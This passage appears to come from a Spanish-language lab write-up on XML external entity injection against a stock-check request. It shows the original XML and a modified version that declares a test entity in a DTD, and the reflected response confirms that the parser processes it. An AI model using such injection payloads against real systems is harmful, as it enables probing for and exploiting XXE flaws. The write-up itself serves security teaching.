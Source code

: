 ```xml
<?xml version="1.0" encoding="UTF-8"?>
	<stockCheck>
		<productId>
			9
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Podemos ver en la petición que se está tramitando una petición con formato XML para tramitar datos.

<br>

Intentaremos hacer lo que explicamos en el post anterior, inyectaremos nuestra propia entidad genérica para ver si funciona y nos interpreta lo que inyectemos:

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY xxe "Prueba"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Podemos ver que después de agregar nuestra entidad genérica en el DTD, llamada **xxe** con el valor de **"Prueba"**, y vemos que nos responde lo siguiente:

![xml](/assets/images/LabsXXE/lab1/pruebaEntity.png)

Podemos apreciar que nos responde el mensaje: **"Invalid product ID: Prueba"**, y llamamos a la entidad en las etiquetas de **productId**, ya que ahí nos dimos cuenta que se estaban devolviendo valores en pantalla y poder verlos.
